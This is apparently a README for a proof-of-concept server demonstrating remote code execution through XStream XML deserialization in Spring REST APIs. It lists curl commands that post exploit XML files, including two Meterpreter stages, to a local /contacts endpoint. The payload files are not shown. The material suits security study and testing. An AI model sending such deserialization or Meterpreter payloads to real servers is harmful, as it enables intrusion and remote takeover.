 ## XStreamServer

RCE Exploit PoC for Spring based RESTFul APIs using XStream as Unmarshaler

Start the server using the maven jetty plugin:
mvn -Djetty.port=8080 -DDebug clean  jetty:run

Expected use:
curl --header "content-type: application/xml" --data @contact.xml "http://localhost:8080/contacts"

Exploit knowing the interface:
curl --header "content-type: application/xml" --data @exploit-interface.xml "http://localhost:8080/contacts"

Generic Exploit:
curl --header "content-type: application/xml" --data @exploit-general.xml "http://localhost:8080/contacts"

Meterpreter Exploit:
curl --header "content-type: application/xml" --data @meterpreter-stage1.xml "http://localhost:8080/contacts"
curl --header "content-type: application/xml" --data @meterpreter-stage2.xml "http://localhost:8080/contacts"

